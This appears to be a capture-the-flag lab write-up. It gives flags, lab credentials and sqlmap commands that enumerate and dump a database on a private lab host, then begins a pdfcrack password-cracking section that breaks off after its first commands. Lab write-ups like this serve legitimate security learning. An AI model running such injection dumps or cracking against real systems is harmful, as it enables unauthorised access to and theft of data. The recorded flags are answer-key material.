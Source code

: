 ### Get FLAG
**FlAG: flag{7a04951d-a174-4588-91fc-4ff1d05aebb2}**

## sqlmap
![image](https://hackmd.io/_uploads/BJPbK_oda.png)

192.168.240.109:10018
![image](https://hackmd.io/_uploads/Hyy_mKiup.png)

### sqlmap Solution
> vaala/vaala

![image](https://hackmd.io/_uploads/HyXbEFjup.png)
> http://192.168.240.109:10018/index.php?username=vaala&password=vaala

### sqlmap

> sqlmap -u "http://192.168.240.109:10018/index.php?username=vaala&password=vaala" --flush-session --random-agent --level 5 --batch --dbs 

![image](https://hackmd.io/_uploads/BJipNFjOp.png)

> sqlmap -u "192.168.240.109:10018/index.php?username=vaala&password=vaala" --batch --dbs -D vaalacat --tables

![image](https://hackmd.io/_uploads/HJj4Dto_p.png)

> sqlmap -u "192.168.240.109:10018/index.php?username=vaala&password=vaala" --batch --dbs -D vaalacat -T vaala --dump

![image](https://hackmd.io/_uploads/HJGUDFs_6.png)

LOGIN
![image](https://hackmd.io/_uploads/H1YRwKo_T.png)

### Get FLAG
**FlAG: jkladsfhjklfghjkfdghjk**

## pdfcrack
![image](https://hackmd.io/_uploads/Sy9UYFsOa.png)
http://192.168.240.109:10090/

### pdfcrack Solution
> sudo apt install pdfcrack

![image](https://hackmd.io/_uploads/r1Uwoci_T.png)
> pdfcrack encryption_pdf.pdf 
